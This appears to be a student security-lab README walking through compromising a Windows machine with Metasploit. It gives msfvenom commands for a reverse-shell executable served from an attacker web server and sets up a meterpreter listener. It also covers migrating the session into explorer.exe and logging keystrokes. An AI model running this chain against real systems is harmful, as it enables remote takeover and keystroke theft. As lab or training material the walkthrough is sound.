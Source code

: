 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:
Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:
Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/user-attachments/assets/74db2e12-b5c1-4a5e-922f-2382ac5658e7)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/user-attachments/assets/5de4f8a7-e902-4534-b25f-60ac6cf2487a)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/user-attachments/assets/a8ce006e-a938-4e37-9ec4-19180fafc6e0)

Start apache server sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/user-attachments/assets/23cf2b47-596c-4724-8ca3-852b2b143362)

Check the status of apache2

## OUTPUT:
![image](https://github.com/user-attachments/assets/a19f616a-4759-4bce-ba00-b04aeac056a1)

Invoke msfconsole:

## OUTPUT:
![image](https://github.com/user-attachments/assets/9d4e49b9-0494-463a-81f2-6267e152f938)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/user-attachments/assets/7bf01fd5-3fb3-40f8-ac55-340227c29832)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/user-attachments/assets/092b4542-c4af-4a0f-b648-8e1ddd1468e9)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/655726a4-b159-4cad-9547-a98dd5ee6fde)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/user-attachments/assets/b4fe75ff-0114-4244-a9f2-6613643e0aa2)

On kali give the command exploit

![image](https://github.com/user-attachments/assets/276c091d-1a22-4fdf-b9c8-ab88846d717b)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/57a353ca-0837-4ce4-8c1c-02e045039442)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/user-attachments/assets/82bf7230-4c83-4017-b369-6d7b99ead749)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/fa1fd744-98da-4410-8d6f-4fee60c6438d)
![image](https://github.com/user-attachments/assets/cf255f6f-5a4e-421b-9907-c1c0d63d81b9)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/282c022c-bfa0-4507-8716-a847d6301ad9)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
